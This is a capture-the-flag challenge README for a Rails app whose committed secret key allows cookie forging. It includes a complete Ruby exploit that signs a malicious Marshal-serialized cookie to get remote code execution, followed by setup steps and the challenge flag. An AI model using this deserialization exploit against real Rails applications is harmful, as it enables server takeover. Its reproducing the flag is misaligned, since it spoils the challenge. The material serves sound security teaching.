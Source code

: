# Open Source Key Leak

It was (maybe still is?) common for Rails newbs and experts to check the config/secret_key.rb file into their version control system. We did this previously (https://github.com/mitre-cyber-academy/2013-web-400). The original challenge was vulnerable to a SQL injection -- this has been patched, but we are leaving the secret key the same. Usernames, passwords, and the key have also changed. By crafting a cookie using the secret key, competitors can take advantage of a remote code execution by passing a "legit" cookie, having it get un-serialized, and then the code contained in the cookie gets executed.


## Solution

Solution credit: http://robertheaton.com/2013/07/22/how-to-hack-a-rails-app-using-its-secret-token/

    require "net/http"
    require "uri"
    require 'erb'
    require 'base64'
    require 'openssl'

    module ActiveSupport
      module Deprecation
        class DeprecatedInstanceVariableProxy
          def initialize(instance, method, var, deprecator)
            @instance = instance
            @method = method
            @var = var
            @deprecator = deprecator
          end
        end
      end
    end


    secret_token = 'c95f554820d160cac5792840a37900b98b30cd61f7dc7260a7532a8ffe15f46ddfd1e9005d648119a4f77d7f4221cb19ee6ef7d0bd4e08a42436502c212e9848'

    erb = ERB.allocate
    erb.instance_variable_set(:@src, 'thing = Message.first.body; system("echo #{thing} >> public/flag.txt");')

    proxy = ActiveSupport::Deprecation::DeprecatedInstanceVariableProxy.new(erb, :result, "foo", ActiveSupport::Deprecation)
    my_evil_session_hash = {proxy => 'something'}

    # Serialize your hash
    marshal_dump = Marshal.dump(my_evil_session_hash)

    # Base64 encode this dump
    unescaped_cookie_value = Base64.encode64(marshal_dump).gsub("\n", "")

    # Escape any troublesome characters and remove line breaks altogether
    escaped_cookie_value = CGI.escape(unescaped_cookie_value).gsub("%0A", "")

    # Calculate the signature using the HMAC digest of the secret_token and the escaped cookie value. Replace %3D with equals signs.
    cookie_signature = OpenSSL::HMAC.hexdigest(OpenSSL::Digest::SHA1.new, secret_token, escaped_cookie_value.gsub("%3D", "="))

    # Construct your evil cookie by concatenating the value with the signature
    my_evil_cookie = "_rails_messaging_app_session=#{unescaped_cookie_value}--#{cookie_signature}"

    # BOMBS AWAY
    url = URI.parse("http://localhost:80/") # Make sure you have a trailing / if you are sending to the root path

    req = Net::HTTP::Get.new(url.path)
    req.add_field("Cookie", my_evil_cookie)

    res = Net::HTTP.new(url.host, url.port).start do |http|
        http.request(req)
    end

    puts res.inspect


## Building/Running the Challenge
Step 1: Setting up

    git clone
    ...
    docker-compose up --build -d
    # Wait a minute...
    docker-compose run  --rm web /bin/bash -c "bundle exec rake db:create RAILS_ENV=production && bundle exec rake db:schema:load RAILS_ENV=production && bundle exec rake db:seed RAILS_ENV=production"
    
Step 2: change the docker-compose.yml ports to "3000:80"
 
Step 3: Take the above code and put it into a .rb file and run it 

     change flag.txt to a name longer that 25 characters
     change url: from 80 to 3000 
     
 Step 4: Go to the browser and type localhost:3000/longname.txt and see the key
 
**Competitors will also need to be informed that the file they create needs to have a name longer than 25 characters.**

This project uses the new format of the docker-compose file, which must be installed from https://github.com/docker/compose/releases and requires a version 1.7 or greater.

## Flag

763d661f088cbd9e83ed2d3f6c4865cca6f1d284